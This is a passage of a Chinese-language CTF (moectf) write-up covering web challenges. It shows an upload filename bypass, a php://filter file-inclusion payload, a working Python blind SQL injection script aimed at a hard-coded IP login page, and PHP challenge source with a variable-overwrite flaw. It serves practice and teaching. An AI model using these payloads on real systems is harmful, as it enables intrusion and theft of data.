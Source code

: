 随便上传个png，发现

![image-20221015203535968](moectf.assets\image-20221015203535968.png)

bp抓包改下文件名再发送，就得到flag

![image-20221015203613420](moectf.assets\image-20221015203613420.png)

### inclusion

经典的php伪协议

```php
?file=php://filter/convert.base64-encode/resource=flag.php
```

### sqlmap_boy

环境没了，当时图方便直接盲注了

**exp**

```py
import requests

url='http://82.156.5.200:1045/login.php'
flag=''
for i in range(1,666):
    for j in range(32,128):
        data = {
            "username":f'1\'"||(ascii(substr((select(group_concat(flAg))from(flag)),{i},1))={j});#',
            'password':1
        }
        r=requests.post(url=url,data=data)
        #print(r.text)
        if '"code":"1"' in r.text:
            flag+=chr(j)
            print(flag)
            if j=='}':
                exit()
            break
```

### ezphp

```php
<?php

highlight_file('source.txt');
echo "<br><br>";

$flag = 'xxxxxxxx';
$giveme = 'can can need flag!';
$getout = 'No! flag.Try again. Come on!';
if(!isset($_GET['flag']) && !isset($_POST['flag'])){
    exit($giveme);
}

if($_POST['flag'] === 'flag' || $_GET['flag'] === 'flag'){
    exit($getout);
}

foreach ($_POST as $key => $value) {
    $$key = $value;
}

```